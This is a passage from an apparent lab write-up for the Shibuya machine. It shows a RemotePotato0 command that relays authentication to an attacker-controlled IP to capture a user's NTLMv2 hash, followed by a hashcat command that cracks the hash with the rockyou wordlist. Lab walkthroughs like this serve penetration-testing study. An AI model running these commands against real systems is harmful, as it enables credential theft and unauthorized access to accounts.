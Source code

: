 We relayed it using RemotePotato0.exe

```powershell
.\RemotePotato0.exe -r 10.10.14.69 -x 10.10.14.69 -m 2 -s 1 -p 8888
```

![Screenshot_20251030_234753.png](/assets/images/Shibuya_VL/Screenshot_20251030_234753.png)

Got the hash for Nigel.Mills

### Hash Cracking

Lets now crack it using hashcat.

```powershell
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```
